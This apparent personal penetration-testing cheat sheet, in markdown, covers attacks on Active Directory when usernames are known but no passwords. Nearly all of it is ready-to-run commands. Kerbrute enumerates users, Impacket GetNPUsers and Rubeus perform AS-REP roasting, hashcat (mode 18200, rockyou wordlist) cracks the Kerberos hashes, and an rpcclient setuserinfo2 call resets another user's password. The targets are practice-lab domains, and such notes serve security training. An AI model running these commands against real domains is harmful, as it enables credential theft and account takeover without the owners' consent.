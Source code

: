 ## We got Users but no Pass?

### Links

- [GitHub Rubeus](https://github.com/GhostPack/Rubeus)
### ASREP Roasting Attack

### Check for valid usernames

```
/opt/kerbrute userenum --dc $ip -d intelligence.htb users

then do this

GetNPUsers.py -no-pass -dc-ip $ip intelligence.htb/Jose.Williams
```

```
impacket-GetNPUsers htb.local/ -usersfile user.txt -format hashcat -outputfile hashes.domain.txt

or this:

for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.192 blackfield.local/$user | grep krb5asrep; done



.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
```

```

impacket-GetNPUsers -dc-ip 192.168.205.70  -request -outputfile hashes.asreproast corp.com/pete
hashcat --help | grep -i "Kerberos"

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

cd C:\Tools
.\Rubeus.exe asreproast /nowrap

sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```


### Password Reset over RPC

https://room362.com/posts/2017/reset-ad-user-password-with-linux/

```
Log into Rpc with the user who can change password of other user:

rpcclient $> setuserinfo2

rpcclient $> setuserinfo2 audit2020 23 'Bwiz123!!!'

```

